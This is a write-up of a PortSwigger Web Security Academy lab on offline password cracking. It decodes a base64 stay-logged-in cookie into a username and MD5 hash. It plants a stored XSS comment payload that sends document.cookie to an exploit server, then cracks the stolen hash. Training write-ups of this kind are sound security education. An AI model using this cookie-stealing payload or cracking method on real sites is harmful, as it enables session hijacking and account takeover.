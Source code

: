 



### [Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

**Goal** : obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- go to the login page ,submit your valid credentials `wiener:peter`,intercept the request and send it to the repeater

- you will notice that when you enter : 

  - wrong credentials , it gives `Invalid username or password.`

  - multiple wrong credentials , it gives `You have made too many incorrect login attempts. Please try again in 1 minute(s).`

  - valid credentials , it redirects to ` /my-account` and generate cookie 

  - ```bash
    Cookie:session=7XJuc6GpisdrW8O;stayloggedin=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
    ```

- notice that the value of `stayloggedin` is in base64 

- decode it and you will get `wiener:51dc30ddc473d43a6011e9ebba6ca770 ` which is the `username : md5(password)`

- go to home then view post and write XSS payload in the comment (stored XSS)

```html
<script>document.location='https://your-own-server.web-security-academy.net/'+document.cookie</script>
```

<br />

- open access log of the exploit server and you will get `carlos`'s cookie

![](/assets/img/portswigger/auth/auth9_1.png)

<br />

```bash
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

<br />

- decode the base64, you will get `carlos:26323c16d5f4dabff3bb136f2460a943`
- decrypt the md5 hash using any tool ,( i used this website `https://www.md5online.org/md5-decrypt.html` ) and you will get `carlos` 's password 

<img src="/assets/img/portswigger/auth/auth9_2.png" alt="auth" style="zoom:80%;" />
